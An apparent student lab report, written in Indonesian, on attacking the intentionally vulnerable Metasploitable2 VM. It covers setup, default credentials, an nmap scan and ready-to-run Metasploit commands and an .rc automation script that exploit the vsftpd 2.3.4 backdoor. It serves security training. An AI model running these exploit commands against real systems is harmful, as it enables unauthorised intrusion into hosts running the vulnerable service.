





# Metasploitable2
## 1. Informasi Umum

- **Nama Peserta**        : Aria Fatah
- **Tanggal Praktikum**   : 29 Juni 2025
- **Nama Praktikum**      : Lab Infrastructure Network Pentest
- **Target Sistem**       : Metasploitable2
- **IP/URL Target**       : 192.168.1.11

---

## 2. Tujuan Praktikum
Tujuan dari praktikum ini adalah **mengidentifikasi, memahami, dan mengeksploitasi kerentanan umum pada sistem operasi dan layanan yang berjalan di Metasploitable2**, berdasarkan kerentanan nyata seperti **misconfiguration, weak credentials, vulnerable services (misalnya vsftpd, Tomcat, MySQL), serta eksploitasi menggunakan Metasploit Framework.**

---

## 3. Tools dan Bahan

- **Tools Utama**:
  - Nmap
  - Metasploit Framework

- **VM/Lab Environment**:
  - Metasploitable2 (Target Machine)
  - Kali Linux (Attacker Machine)
  - VirtualBox/VMware sebagai hypervisor

---

## 4. Metodologi Pengujian
Metodologi yang digunakan mengacu pada standar **NIST SP 800-115**, meliputi:

1. **Planning**
2. **Discovery**
3. **Attack**
4. **Reporting**

---

## 5. Langkah-Langkah Praktikum
### 1. Planning
- Unduh file OVA dari SourceForge: [Download Metasploitable2 (.ova)](https://sourceforge.net/projects/metasploitable/)

#### 1. Import ke VirtualBox
##### Opsi 1: Import langsung file OVA (disarankan)
1. Buka **VirtualBox**.
2. Klik **File > Import Appliance**.
3. Pilih file `Metasploitable2.ova` yang telah diunduh.
4. Klik **Next > Import**.
5. Setelah proses selesai, VM Metasploitable2 akan muncul di daftar.
✅ **Langsung bisa dijalankan**, tidak perlu atur manual disk.

##### Opsi 2: Manual Buat VM dan pasang disk (jika OVA error atau hanya punya file VMDK)
1. Buka **VirtualBox**, klik **New**.
2. Isi nama: `Metasploitable2`, type: **Linux**, version: **Other Linux (64-bit)**.
3. Atur RAM (disarankan: **512MB atau lebih**) dan CPU (1 core cukup).
4. Pada bagian *Hard disk*, pilih **Do not add a virtual hard disk** lalu lanjut.
5. Setelah VM dibuat:
   - Klik kanan VM → **Settings**.
   - Masuk ke tab **Storage** → klik ikon hard disk (Controller: IDE).
   - Klik **Add Hard Disk** (ikon plus) → pilih **Choose existing disk**.
   - Arahkan ke file `.vmdk` dari folder OVA (biasanya satu folder dengan OVA yang diekstrak otomatis).

#### 2. Jalankan Metasploitable2
```bash
# Setelah VM siap, klik Start di VirtualBox untuk menyalakan Metasploitable2
# Username default: msfadmin
# Password default: msfadmin
```

Jika kamu juga menggunakan **Kali Linux** untuk menyerang:
- Pastikan **Kali Linux dan Metasploitable2 berada di jaringan yang sama**, misalnya dengan:
  - **Adapter 1**: Host-Only Adapter
  - atau gunakan Internal Network / Bridged (recomended)

2. Jalankan **Kali Linux** sebagai attacker:
  ```bash
  # Jalankan Kali Linux di VirtualBox/VMware
  # Pastikan kedua VM (Kali dan Metasploitable2) berada dalam satu jaringan:
  # - Gunakan mode jaringan "Host-Only Adapter" atau "Internal Network"
  ```
3. Menentukan IP Metasploitable2
   Dari dalam Metasploitable2: ```ifconfig```, Atau dari Kali Linux: ```netdiscover```

### 2. Discovery
- nmap
  ```bash
  netdiscover # untuk mengetahui ip di sekitar
  nmap -sCV -Pn 192.168.1.11 -T5 -oN nmap
  ```
  

### 3. Attack
#### 21/tcp - vsftpd 2.3.4


Versi vsftpd 2.3.4 diketahui memiliki celah keamanan yang terdokumentasi dalam CVE. Kita dapat mengeksploitasinya menggunakan Metasploit Framework.

##### 1. Menggunakan msfconsole secara interaktif
```bash
msfconsole
> search vsftpd 2.3.4
> use exploit/unix/ftp/vsftpd_234_backdoor
> show options
> set RHOSTS 192.168.1.11
> run
```


2. Menjalankan exploit secara cepat dengan inline command
```bash
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS 192.168.1.11; run; exit"
```


3. Menggunakan script .rc untuk automasi
```bash
cat > vsftpd2.3.4.rc << EOF
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.11
run
exit
EOF

msfconsole -q -r vsftpd2.3.4.rc
```


> Cara ini sangat efisien untuk mengotomatisasi eksploitasi atau mengulang pengujian secara cepat.